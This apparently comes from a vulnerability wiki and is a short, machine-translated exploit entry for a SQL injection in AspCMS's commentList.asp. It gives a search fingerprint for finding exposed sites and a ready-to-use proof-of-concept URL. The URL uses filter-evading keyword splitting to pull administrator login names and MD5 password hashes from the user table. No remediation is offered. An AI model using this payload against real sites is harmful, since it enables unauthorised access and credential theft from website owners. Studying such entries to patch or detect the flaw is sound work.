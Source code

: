 # AspCMS commentList.asp SQL injection vulnerability

## Vulnerability Description

AspCMS commentList.asp has a SQL injection vulnerability, and an attacker can obtain the administrator md5 password through the vulnerability.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">AspCMS</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">app="ASPCMS"</span>

## Vulnerability reappears

CMS is judged through the website source code response

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1628478800340-8ab8b7c0-3f74-4294-bac5-4153b18ae8c9.png)

Verify POC

```php
/plug/comment/commentList.asp?id=-1%20unmasterion%20semasterlect%20top%201%20UserID,GroupID,LoginName,Password,now(),null,1%20%20frmasterom%20{prefix}user
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1628478943060-7c05774b-519d-47cf-ad9a-05fb52f74253.png)

MD5 successfully obtained the administrator account and password